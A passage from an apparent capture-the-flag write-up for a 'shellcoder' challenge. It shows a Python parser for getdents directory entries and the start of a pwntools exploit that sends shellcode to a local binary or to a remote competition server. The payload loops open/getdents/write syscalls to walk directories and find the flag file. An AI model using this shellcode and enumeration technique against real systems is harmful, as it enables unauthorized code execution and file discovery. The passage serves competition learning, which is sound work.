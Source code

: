 Another minor inconvenience is the fact that the `getdents` syscall returns a linux_dirent struct for each file which needs to be parsed. Lucky, we can do that on the client side with python instead of parsing it with assembly:

```python
def parse(data):
  files = []
  i = 0
  while i < len(data):
    i += 8
    i += 8
    l = u64(data[i:i+2].ljust(8,'\x00')) - 18
    i += 2

    files.append(data[i:i+l].split('\x00')[0])
    i += l
  return files
```

Now, with the ability to list all files in a given directory, we just need a program to recursively go through all the folders and find the flag file. 

Because the server always timeouts before the flag file can be found, I also added the functionality to preserve progress so that I can get the path using multiple sessions.

Here is the final code:

```python
import json
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './shellcoder'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  REMOTE = False
else:
  sh = remote('139.180.215.222', 20002)
  REMOTE = True
payload = "\x57\x5e\x97\x92\x0f\x05\x00"

sh.sendafter(':', payload)

payload = 'start:'
payload += shellcraft.amd64.linux.syscall(0x00, 0, 'rsp', 100)
payload += shellcraft.amd64.linux.syscall(0x101, -100, 'rsp', 591872)
payload += shellcraft.amd64.linux.syscall(0x4e, 'rax', 'rsp', 32768)
payload += shellcraft.amd64.linux.syscall(0x01, 1, 'rsp', 'rax')
payload += 'jmp start'
```